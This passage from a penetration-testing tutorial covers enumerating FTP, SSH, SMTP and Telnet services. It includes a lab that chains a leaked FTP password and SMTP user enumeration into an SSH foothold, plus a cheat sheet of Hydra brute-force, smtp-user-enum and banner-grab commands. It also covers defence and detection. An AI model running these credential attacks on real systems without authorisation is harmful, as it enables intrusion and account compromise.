The decision logic for which technique to use:



### 6.3 Automating with smtp-user-enum

Doing this by hand across a wordlist is tedious; **smtp-user-enum** automates all three methods.

**smtp-user-enum from scratch:** a small tool (Perl classic; a modern Python port also ships on Kali) that connects to an SMTP server and tries each username from a list using `VRFY`, `EXPN`, or `RCPT TO`, reporting which the server confirms as valid. Preinstalled on Kali (`/usr/bin/smtp-user-enum`).

```bash
smtp-user-enum -M RCPT -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt -t 10.10.10.50
```

- `-M RCPT` — the method: `VRFY`, `EXPN`, or `RCPT` (RCPT is the most reliable on hardened modern servers).
- `-U <file>` — the username wordlist (SecLists ships good ones).
- `-t <host>` — target. Use `-D domain.com` to append a domain to each username if the server needs full addresses.

```
######## Scan started ########
10.10.10.50: root exists
10.10.10.50: admin exists
10.10.10.50: postmaster exists
10.10.10.50: www-data exists
######## Scan completed ########
4 results.
```

Nmap also has `smtp-enum-users` and the informational `smtp-commands` (dumps the EHLO capabilities):

```bash
nmap -p 25 --script smtp-commands,smtp-enum-users 10.10.10.50
```

Valid system usernames (`root`, `www-data`, `postmaster`) feed straight into SSH spraying, and confirming real employee addresses feeds phishing during a red-team engagement.

### 6.4 Open-relay testing

An **open relay** is an SMTP server that will accept and forward mail from *anyone* to *anyone* — sender and recipient both outside its own domains. Spammers love them, and finding one is a serious misconfiguration finding. Test whether the server relays mail that neither originates from nor is destined to a domain it owns. Nmap automates it:

```bash
nmap -p 25 --script smtp-open-relay 10.10.10.50
```

```
| smtp-open-relay: Server is an open relay (16/16 tests)
```

A positive result means the server will relay third-party mail — reportable and, on a real engagement, demonstrable (carefully, within scope) by sending one test message from an external "from" to an external "to."

**Red team usage:** confirmed employee email addresses (from RCPT enumeration) plus an internal mail hostname (from the banner) are the raw material for a targeted phishing pretext. **Blue team usage:** disable `VRFY`/`EXPN`, ensure the server rejects invalid recipients *after* connection rather than leaking existence, close relaying to authenticated/local only, and alert on bursts of `RCPT TO` with high `550` rates — the fingerprint of user enumeration.

---

## Part 7: Telnet (Port 23) — A Red Flag Worth Enumerating

**Telnet** (RFC 854) is a plaintext remote-terminal protocol from 1969. It transmits everything — usernames, passwords, session data — in cleartext, so anyone on the path can sniff credentials with a packet capture. Its continued presence on a network is itself a finding: modern hosts use SSH, so **an open port 23 usually means a legacy device, a network appliance (router/switch/IP camera/printer), an IoT gadget, or an unmaintained system** — precisely the kind of thing that ships with default credentials.

### 7.1 Banner enumeration

Connect and read what it announces — telnet banners are often verbose, naming the device, OS, or firmware:

```bash
telnet 10.10.10.50 23
```

```
Trying 10.10.10.50...
Connected to 10.10.10.50.
Escape character is '^]'.

DD-WRT v3.0 std (c) 2020 NewMedia-NET GmbH
Release: 12/03/20

router login:
```

That banner just told you it's a **DD-WRT router**, firmware release date included — enough to look up default credentials and firmware CVEs. Nmap's NSE adds `telnet-encryption` (does it support encryption at all?) and `telnet-ntlm-info` (leaks Windows domain/host info from telnet services that speak NTLM):

```bash
nmap -p 23 --script telnet-encryption,telnet-ntlm-info -sV 10.10.10.50
```

### 7.2 Default and weak credentials

Because telnet lives on appliances, **default-credential testing** is the natural next step: `admin/admin`, `root/root`, vendor defaults (e.g. `admin/1234`), and device-specific pairs from lists like SecLists' `Passwords/Default-Credentials/`. Hydra drives it against telnet just like SSH:

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/telnet-betterdefaultpasslist.txt telnet://10.10.10.50
```

- `-C file` — a combined `user:pass` list (one pair per line), instead of separate `-L`/`-P`.

**Blue team / architecture note:** the correct remediation for telnet is not "brute-force-proof the password" — it's *disable telnet entirely* and replace it with SSH. Any telnet finding should be written up as plaintext-protocol exposure regardless of whether you cracked a credential, because passive sniffing defeats it completely. **Bug bounty relevance:** an internet-exposed telnet service (especially on an IoT/appliance in scope) is reportable purely on the cleartext-credential-exposure and default-credential risk.

---

## Part 8: Full Hands-On Lab — Enumerating a Multi-Service Target

This lab ties everything together against a single lab host (`10.10.10.50`, a Metasploitable-style target you own or that is provided by a training platform — **never** an out-of-scope host). The goal: go from a bare port list to a full service inventory with findings, using only enumeration.

### Step 0 — Scope check

Confirm the target is in your authorised scope and you have written permission. This is not optional boilerplate; it is the line between a penetration test and a crime. Everything below assumes `10.10.10.50` is a lab target you are authorised to attack.

### Step 1 — Fast port + version sweep

```bash
nmap -sV -sC -p 21,22,23,25 -oN enum_initial.txt 10.10.10.50
```

- `-oN enum_initial.txt` — save normal-format output; enumeration is worthless if you don't keep notes.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--  1 0 0  107 Mar 03 2022 secret_notes.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|_  2048 aa:bb:cc:dd:ee:ff (RSA)
23/tcp open  telnet  Linux telnetd
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: mail.acme.local, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS
```

Findings already: vsftpd 2.3.4 (backdoor build), anonymous FTP with a `secret_notes.txt`, OpenSSH 7.6 (CVE-2018-15473 user enum), legacy telnetd, and a Postfix server advertising `VRFY`.

### Step 2 — Pull the anonymous FTP file

```bash
ftp 10.10.10.50
# Name: anonymous   Password: (blank)
ftp> ls
ftp> get secret_notes.txt
ftp> quit
cat secret_notes.txt
```

```
Reminder: rotate the backupsvc password. Current temp pw: Backup#2024
```

A credential leaked in a world-readable FTP file — the highest-value kind of enumeration finding.

### Step 3 — Enumerate SMTP users

```bash
smtp-user-enum -M RCPT -U users.txt -D acme.local -t 10.10.10.50
```

```
10.10.10.50: backupsvc exists
10.10.10.50: admin exists
10.10.10.50: root exists
```

`backupsvc` is confirmed as a real user — and we just found a `backupsvc` password on the FTP server. The two findings combine.

### Step 4 — Confirm SSH auth methods, then try the found credential

```bash
ssh -o PreferredAuthentications=none backupsvc@10.10.10.50
# -> Permission denied (publickey,password)  => password auth is on
ssh backupsvc@10.10.10.50
# password: Backup#2024
```

```
backupsvc@acme:~$ id
uid=1002(backupsvc) gid=1002(backupsvc) groups=1002(backupsvc)
```

Foothold achieved **entirely through enumeration** — no exploit fired. The FTP file gave a password, SMTP enumeration confirmed the matching username, and SSH accepted it. This chained-enumeration pattern (leaked cred + confirmed user + open auth method) is one of the most common real-world footholds there is.

### Step 5 — Document everything

```
Host 10.10.10.50 (mail.acme.local, Ubuntu 18.04)
  21/ftp  vsftpd 2.3.4  -> anon login; leaked cred in secret_notes.txt; backdoor build (CVE-2011-2523)
  22/ssh  OpenSSH 7.6p1 -> password auth enabled; CVE-2018-15473 user-enum; FOOTHOLD as backupsvc
  23/telnet Linux telnetd -> plaintext protocol exposure (should be disabled)
  25/smtp Postfix        -> VRFY enabled; user enum via RCPT (root, admin, backupsvc)
```

---

## Part 9: Banner Grabbing on Nonstandard Ports & Obfuscated Services

Real networks don't keep services on their textbook ports. Admins move SSH to 2222, run a second web app on 8080, or hide a management interface on 8443. **Never trust the port number to tell you the service** — always verify with a banner grab or `-sV`. Nmap maps ports to *likely* services from `/etc/services`, but that's a guess; `-sV` confirms by actually talking to the service.

```bash
nmap -sV -p- --version-all 10.10.10.50
```

`-p-` scans all 65,535 ports; `--version-all` throws every probe so even a service on a weird port gets fingerprinted. When you find, say, `SSH-2.0-OpenSSH` on port 2222, treat it exactly as port-22 SSH. When `-sV` reports `tcpwrapped`, the service accepted the TCP connection then closed it before saying anything — usually a firewall/tcpwrapper filtering by source IP, or a service that needs a specific first message; note it and revisit from an allowed source.

**Red team usage:** attackers hide C2 and management services on high nonstandard ports precisely to dodge port-based rules; as a tester you mirror that by scanning the full range. **Blue team usage:** a service on a nonstandard port that *matches a known protocol* is worth investigating — it may be shadow IT or an attacker's tooling.

---

## Part 10: Auxiliary Enumeration Notes — Where the Technique Transfers

While this chapter's four protocols are the archetypes, enumeration spills into adjacent services you'll meet on the same host, and it's worth knowing where they slot in so you don't miss them:

- **Port 20** — the FTP active-mode data port; you won't connect to it directly, but seeing it referenced in a `PORT` command confirms active-mode transfers.
- **Ports 110/143 (POP3/IMAP)** — mail *retrieval* protocols that sit alongside SMTP. They banner-grab identically (`nc`/`openssl s_client`), leak the mail software version, and often support their own `USER`/`LOGIN` enumeration. If you find SMTP, check for these too.
- **Port 79 (finger)** — an ancient user-info service; where present, `finger user@host` enumerates logged-in users and account details directly. Rare but an instant win on legacy boxes.

The point: the *technique* — connect, read the banner, speak the protocol, look for auth/enum verbs — transfers to essentially every text-based service. FTP, SSH, SMTP, and Telnet are the archetypes; the muscle memory you build here applies to POP3, IMAP, finger, NNTP, IRC, Redis, memcached, and more.

---

## Part 11: Detection & Defense Angle

Everything above generates network traffic and log entries. A competent blue team can see enumeration happening, and understanding that visibility both makes you a stealthier tester and a better defender. This section consolidates the defensive view across all four protocols.

### 11.1 What enumeration looks like on the wire



- **Banner grabbing** shows up as a completed TCP handshake immediately followed by a `FIN`/`RST` with little or no data exchanged — many such short-lived flows from one source across sequential ports is the scanning signature (Zeek's `conn.log` with tiny `orig_bytes`/`resp_bytes`).
- **SSH/FTP/telnet brute-force** produces a burst of authentication failures from a single source IP in `/var/log/auth.log` (Linux) or the FTP/telnet daemon logs.
- **SMTP user enumeration** produces a flood of `RCPT TO` commands with a high proportion of `550 User unknown` responses in `/var/log/mail.log` — a very distinctive pattern.

### 11.2 Concrete defensive controls

| Threat | Control | Notes |
| --- | --- | --- |
| Version disclosure | Suppress/obfuscate banners (`ServerTokens`, custom SSH `Banner`, Postfix `smtpd_banner`) | Slows an attacker's CVE lookup; not a real fix but reduces free info |
| SSH/FTP brute-force | **fail2ban** — ban IPs after N failures | The standard, high-value control |
| SSH weak auth | Disable password auth (`PasswordAuthentication no`), keys only | Kills online password guessing entirely |
| SSH user enum (CVE-2018-15473) | Upgrade OpenSSH ≥ 7.7 | Timing normalised |
| Anonymous FTP | Disable anonymous, or replace FTP with SFTP/FTPS | Best fix: retire plaintext FTP |
| SMTP user enum | Disable `VRFY`/`EXPN`; reject invalid recipients uniformly | `disable_vrfy_command = yes` in Postfix |
| SMTP open relay | Restrict relaying to authenticated/local senders | `smtpd_relay_restrictions` |
| Telnet exposure | Disable telnet; use SSH | Plaintext is unfixable by config |

### 11.3 fail2ban from the defender's chair

**fail2ban** watches log files, matches failure patterns with regex "filters," and triggers "actions" (usually an iptables/nftables ban) when a source crosses a threshold in a time window. A minimal SSH jail:

```ini
[sshd]
enabled  = true
port     = ssh
filter   = sshd
logpath  = /var/log/auth.log
maxretry = 5
findtime = 600
bantime  = 3600
```

- `maxretry = 5` — ban after 5 failures.
- `findtime = 600` — ...within 600 seconds.
- `bantime = 3600` — ban for one hour.

For the tester, fail2ban is why `hydra -t 4` and slow, targeted guessing beats a fast spray: cross the threshold and your source IP is blocked, ending the engagement from that host. For the defender, it's the single highest-leverage control against the brute-force half of this chapter.

---

## Part 12: Common Pitfalls & Mistakes

- **Trusting the port number.** Port 8080 is not "definitely HTTP" and port 22 is not "definitely SSH." Always confirm with a banner grab or `-sV`. Services move.
- **Forgetting CRLF on SMTP/FTP.** Typing commands into `nc` without `-C` sends bare `\n`; strict servers ignore or reject it and you conclude "the server is broken" when your line endings are wrong. Use `nc -C` or `telnet`.
- **ASCII vs binary FTP transfers.** Downloading a binary in ASCII mode corrupts it. Always `binary` before `get` on non-text files.
- **Brute-forcing too fast.** High `-t` on SSH triggers rate-limiting and fail2ban, gets you banned, and produces false "all passwords failed" results because connections are dropped, not rejected. Keep SSH concurrency low.
- **Not reading the whole `-sV -sC` output.** The foothold is often sitting in an NSE line (`ftp-anon`, `smtp-commands`) you skimmed past. Read every line.
- **Ignoring nonstandard ports.** Stopping at `--top-ports` misses the SSH on 2222 or the management panel on 8443. On a thorough engagement, `-p-` at least once.
- **Enumerating out of scope.** Confirming a domain's mail users or brute-forcing a login you weren't authorised to touch is unlawful regardless of how "harmless" it feels. Scope first, always.
- **Locking out accounts.** Online guessing against real accounts with lockout policies can DoS legitimate users. Coordinate, throttle, and prefer found credentials over blind spraying.

---

## Part 13: Final Revision / Summary

- **Enumeration** turns an open port into an identified, versioned, misconfigured service — and it wins more engagements than exploitation does.
- **Banner grabbing** is the core primitive: many services announce themselves on connect. `nc -nv host port` for plaintext, `openssl s_client -connect host:port [-starttls proto]` for TLS-wrapped services, `curl -sI` for HTTP, `/dev/tcp` when nothing's installed, and `nmap -sV` to do it at scale with a probe database behind it.
- **FTP (21):** dual-channel (control + data), active vs passive; test anonymous login (`ftp-anon`); a `vsFTPd 2.3.4` banner means the CVE-2011-2523 backdoor; leaked files in anonymous shares are a top finding.
- **SSH (22):** the version string is free on connect and pins the OS; enumerate host keys (`ssh-hostkey`) and algorithms (`ssh-audit`); confirm auth methods via `PreferredAuthentications=none`; older OpenSSH allows username enumeration (CVE-2018-15473); brute-force *slowly* with Hydra, and only in scope.
- **SMTP (25/465/587):** speak the mail conversation by hand; `EHLO` lists capabilities; enumerate users with `VRFY`/`EXPN`/`RCPT TO` (automated by `smtp-user-enum`); test for open relay (`smtp-open-relay`).
- **Telnet (23):** its very presence is a plaintext-exposure finding; grab the (often device-identifying) banner and test default credentials; the real fix is to disable it.
- **Detection:** short one-packet flows, auth-failure bursts, and `RCPT TO`/`550` storms are the signatures; fail2ban, disabled anonymous/VRFY/relay, key-only SSH, and retiring plaintext protocols are the defenses.
- **Discipline:** keep exhaustive notes, chain findings (leaked cred + confirmed user + open auth = foothold), respect scope, and throttle anything loud.

---

## Part 14: Cheat Sheet / Quick Reference

**Banner grabbing**

```bash
nc -nv <ip> <port>                       # plaintext banner
nc -nvC <ip> 25                          # SMTP/FTP with CRLF line endings
telnet <ip> <port>                       # manual TCP client
openssl s_client -connect <ip>:465 -quiet          # TLS-wrapped banner
openssl s_client -connect <ip>:587 -starttls smtp  # STARTTLS upgrade then banner
curl -sI http://<ip>/                    # HTTP header banner
exec 3<>/dev/tcp/<ip>/22; cat <&3        # no-tools banner grab
nmap -sV -sC -p- <ip>                    # version + default scripts, all ports
nmap -sV --version-all -p <port> <ip>    # max-intensity fingerprint
```

**FTP (21)**

```bash
nmap -p21 --script ftp-anon,ftp-syst -sV <ip>
ftp <ip>            # anonymous / anonymous  ; ls, get, binary, put
nmap -p21 --script ftp-vsftpd-backdoor <ip>        # CVE-2011-2523 check
```

**SSH (22)**

```bash
nc -nv <ip> 22                                     # version string
nmap -p22 --script ssh-hostkey --script-args ssh_hostkey=full <ip>
ssh-audit <ip>                                     # algorithm + CVE audit
ssh -o PreferredAuthentications=none user@<ip>     # list auth methods
hydra -l <user> -P rockyou.txt -t 4 -f ssh://<ip>  # slow brute-force (in scope!)
```

**SMTP (25/465/587)**

```bash
nc -nvC <ip> 25                                    # EHLO, VRFY, RCPT by hand
smtp-user-enum -M RCPT -U users.txt -D domain -t <ip>
nmap -p25 --script smtp-commands,smtp-enum-users,smtp-open-relay <ip>
```

**Telnet (23)**

```bash
telnet <ip> 23                                     # banner / device fingerprint
nmap -p23 --script telnet-encryption,telnet-ntlm-info -sV <ip>
hydra -C default-creds.txt telnet://<ip>           # default-credential test
```

**SMTP reply codes worth knowing**

| Code | Meaning |
| --- | --- |
| 220 | Service ready (greeting) |
| 250 | Requested action OK |
| 252 | Cannot VRFY but will accept (ambiguous — treat as "maybe exists") |
| 354 | Start mail input (after DATA) |
| 550 | Mailbox unavailable / user unknown |

---

## Part 15: Practice Labs & Resources

Train these exact skills, not generic "hacking":

- **TryHackMe — "Network Services" & "Network Services 2":** dedicated rooms walking through SMB, telnet, FTP, NFS, SMTP, and MySQL enumeration with guided tasks — the single best starting point for this chapter.
- **TryHackMe — "Enumeration" / "Nmap" rooms:** reinforce `-sV -sC` reading and NSE usage.
- **Metasploitable 2 (VulnHub / local VM):** the canonical practice target — vsftpd 2.3.4 backdoor on 21, telnet on 23, Postfix on 25, plus much more. Do the full Part 8 lab against it end to end.
- **HackTheBox — retired boxes with FTP/SMTP footholds:** search retired easy Linux boxes tagged FTP or SMTP, where anonymous FTP or SMTP user-enum is the intended entry vector. Practise chaining a leaked credential to an SSH foothold.
- **PortSwigger Web Security Academy:** for the HTTP-banner and header-enumeration side once you move into the web track.
- **OverTheWire — Bandit:** several levels require SSH and reading service output carefully; good muscle memory for the SSH portion.
- **HackerOne / Bugcrowd disclosed reports:** search disclosed reports for "anonymous FTP", "SMTP open relay", and "outdated OpenSSH" to see how these enumeration findings are written up and triaged in real programs.

**Practice questions:**

1. You grab a banner reading `220 (vsFTPd 2.3.4)`. What are your next two enumeration steps, and what single fact makes this version historically significant?
2. An SSH server replies `Permission denied (publickey)` to `PreferredAuthentications=none`. Should you launch a Hydra password spray? Why or why not, and what do you pivot to?
3. `VRFY` returns `252` for every username you try, including obvious garbage. Is user enumeration blocked? What technique do you try next, and what response difference are you looking for?
4. You find telnet open on port 23 of an internet-facing host but cannot crack a credential. Do you still have a finding to report? Explain the core risk of the protocol.
5. Design the safest possible Hydra command to test one known username against a small curated password list over SSH, and justify each flag choice given fail2ban and rate-limiting.

The next chapter moves from these text-based services into **SMB, RPC & NetBIOS enumeration** — the Windows-networking file and management services where `enum4linux`, `smbclient`, and NetExec do for shares, users, and domains what this chapter's tools did for FTP and mail.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-scanning-enum/06-service-enumeration-ftp-ssh-smtp-telnet-and-banner-grabbing), with comments and the latest edits.*
